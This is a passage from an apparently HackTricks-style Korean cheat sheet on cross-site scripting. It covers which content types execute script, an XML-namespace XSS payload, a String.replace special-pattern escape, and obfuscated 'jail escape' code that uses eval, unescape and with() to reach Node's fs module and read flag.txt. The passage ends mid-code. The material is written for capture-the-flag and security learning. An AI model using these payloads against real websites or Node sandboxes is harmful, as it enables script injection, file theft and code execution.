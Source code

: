 ([**여기**](https://blog.huli.tw/2022/04/24/en/how-much-do-you-know-about-script-type/)에서) 다음 콘텐츠 유형은 모든 브라우저에서 XSS를 실행할 수 있습니다:

* text/html
* application/xhtml+xml
* application/xml
* text/xml
* image/svg+xml
* text/plain (?? 목록에 없지만 CTF에서 본 것 같음)
* application/rss+xml (off)
* application/atom+xml (off)

다른 브라우저에서는 다른 **`Content-Types`**를 사용하여 임의의 JS를 실행할 수 있습니다. 확인: [https://github.com/BlackFan/content-type-research/blob/master/XSS.md](https://github.com/BlackFan/content-type-research/blob/master/XSS.md)

### xml 콘텐츠 유형

페이지가 text/xml 콘텐츠 유형을 반환하는 경우 네임스페이스를 지정하고 임의의 JS를 실행할 수 있습니다:
```xml
<xml>
<text>hello<img src="1" onerror="alert(1)" xmlns="http://www.w3.org/1999/xhtml" /></text>
</xml>

<!-- Heyes, Gareth. JavaScript for hackers: Learn to think like a hacker (p. 113). Kindle Edition. -->
```
### 특수 대체 패턴

**`"some {{template}} data".replace("{{template}}", <user_input>)`**와 같은 것이 사용될 때, 공격자는 [**특수 문자열 대체**](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global\_Objects/String/replace#specifying\_a\_string\_as\_the\_replacement)을 사용하여 일부 보호를 우회하려고 시도할 수 있습니다: ``"123 {{template}} 456".replace("{{template}}", JSON.stringify({"name": "$'$`alert(1)//"}))``

예를 들어, [**이 writeup**](https://gitea.nitowa.xyz/nitowa/PlaidCTF-YACA)에서는 이를 사용하여 스크립트 내의 JSON 문자열을 **이스케이프**하고 임의의 코드를 실행했습니다.

### Chrome 캐시를 이용한 XSS

{% content-ref url="chrome-cache-to-xss.md" %}
[chrome-cache-to-xss.md](chrome-cache-to-xss.md)
{% endcontent-ref %}

### XS Jails 탈출

사용할 수 있는 문자 집합이 제한적인 경우, XSJail 문제에 대한 다른 유효한 솔루션을 확인하세요:
```javascript
// eval + unescape + regex
eval(unescape(/%2f%0athis%2econstructor%2econstructor(%22return(process%2emainModule%2erequire(%27fs%27)%2ereadFileSync(%27flag%2etxt%27,%27utf8%27))%22)%2f/))()
eval(unescape(1+/1,this%2evalueOf%2econstructor(%22process%2emainModule%2erequire(%27repl%27)%2estart()%22)()%2f/))

// use of with
with(console)log(123)
with(/console.log(1)/)with(this)with(constructor)constructor(source)()
// Just replace console.log(1) to the real code, the code we want to run is:
//return String(process.mainModule.require('fs').readFileSync('flag.txt'))

with(process)with(mainModule)with(require('fs'))return(String(readFileSync('flag.txt')))
with(k='fs',n='flag.txt',process)with(mainModule)with(require(k))return(String(readFileSync(n)))
with(String)with(f=fromCharCode,k=f(102,115),n=f(102,108,97,103,46,116,120,116),process)with(mainModule)with(require(k))return(String(readFileSync(n)))

//Final solution
with(
```